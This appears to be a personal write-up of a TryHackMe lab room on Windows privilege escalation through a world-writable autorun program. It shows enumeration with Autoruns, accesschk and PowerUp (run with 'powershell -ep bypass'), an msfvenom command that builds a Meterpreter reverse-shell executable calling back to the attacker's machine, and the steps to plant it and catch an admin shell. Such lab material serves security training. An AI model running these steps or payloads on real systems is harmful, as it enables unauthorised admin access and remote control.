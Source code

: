 ```yaml
---
description: https://tryhackme.com/room/windowsprivescarena
---
```


# 🏃‍♂️ Autoruns

###

Autoruns is a powerful utility designed for Windows users to manage and control programs that launch automatically when the computer starts. In simpler terms, it allows you to see and control what applications and services run during your computer's startup process.

<figure><img src="../../../../.gitbook/assets/image (166).png" alt=""><figcaption></figcaption></figure>

### Steps to Identify and Exploit Autorun for Privilege Escalation

Connect via RDP from your Linux to Windows machine :

<figure><img src="../../../../.gitbook/assets/image (399).png" alt=""><figcaption></figcaption></figure>

1. **Run Autoruns64.exe:** Execute `C:\Users\User\Desktop\Tools\Autoruns\Autoruns64.exe` in an admin command prompt to identify startup programs

at the very top we can see  a file called my program:&#x20;

<figure><img src="../../../../.gitbook/assets/image (400).png" alt=""><figcaption></figcaption></figure>

2. &#x20;**Accesschk for Permissions:** Use `C:\Users\User\Desktop\Tools\Accesschk\accesschk64.exe -wvu "C:\Program Files\Autorun Program"` to check file permissions.&#x20;

Look for broad access, as it can lead to privilege escalation

<figure><img src="../../../../.gitbook/assets/image (401).png" alt=""><figcaption></figcaption></figure>

we are looking for file all access for everyone on a file that automatically runs we can get very malicious as it is possible to make someone run it as admin and then get admin access,&#x20;

3. **PowerUp Analysis:**

* Navigate to `C:\Users\user\Desktop\Tools\PowerUp`.
* Run PowerShell with `powershell -ep bypass`.
* Execute `. .\PowerUp.ps1`.
* Run `Invoke-AllChecks` to identify autorun files and assess permissions

<figure><img src="../../../../.gitbook/assets/image (402).png" alt=""><figcaption></figcaption></figure>

it identifies the autorun file and tells us that everyone has RWX on this file , this is going to come in play soon&#x20;

### Escalation <a href="#lecture_heading" id="lecture_heading"></a>

* **Prepare Kali:**
  * Open two terminals.
  * Launch `msfconsole` in one.
  * Check the IP with `ip a` in the other.
* **Generate Malicious Executable:**
  * Use `msfvenom -p windows/meterpreter/reverse_tcp lhost=[Kali VM IP Address] -f exe -o program.exe` \[4].

This will create a program.exe:&#x20;

<figure><img src="../../../../.gitbook/assets/image (403).png" alt=""><figcaption></figcaption></figure>

On the msfconsole terminal:

<figure><img src="../../../../.gitbook/assets/image (404).png" alt=""><figcaption></figcaption></figure>

Now go back on the other terminal and move the file:

<figure><img src="../../../../.gitbook/assets/image (405).png" alt=""><figcaption></figcaption></figure>

**Host Local Server:**

* Move the executable to the server directory.
* Start a local server with `python -m http.server 4040`.
* **Replace Autorun File:**
  * Fetch the file on the Windows machine via RDP.

<figure><img src="../../../../.gitbook/assets/image (160).png" alt=""><figcaption></figcaption></figure>

Replace the autorun file with the generated malicious executable.

<figure><img src="../../../../.gitbook/assets/image (161).png" alt=""><figcaption></figcaption></figure>

* **Simulate Admin Login:**
  * Disconnect RDP.
  * Reconnect using admin credentials obtained earlier.

<figure><img src="../../../../.gitbook/assets/image (162).png" alt=""><figcaption></figcaption></figure>

This is going to simulate an admin login&#x20;

<figure><img src="../../../../.gitbook/assets/image (163).png" alt=""><figcaption></figcaption></figure>

connect with the admin credentials we got in the intro of this box

* **Exploit Success:**
  * Upon session opening, a pop-up appears.

<figure><img src="../../../../.gitbook/assets/image (164).png" alt=""><figcaption></figcaption></figure>

Check `msfconsole` for a successful shell connection.

<figure><img src="../../../../.gitbook/assets/image (165).png" alt=""><figcaption></figcaption></figure>
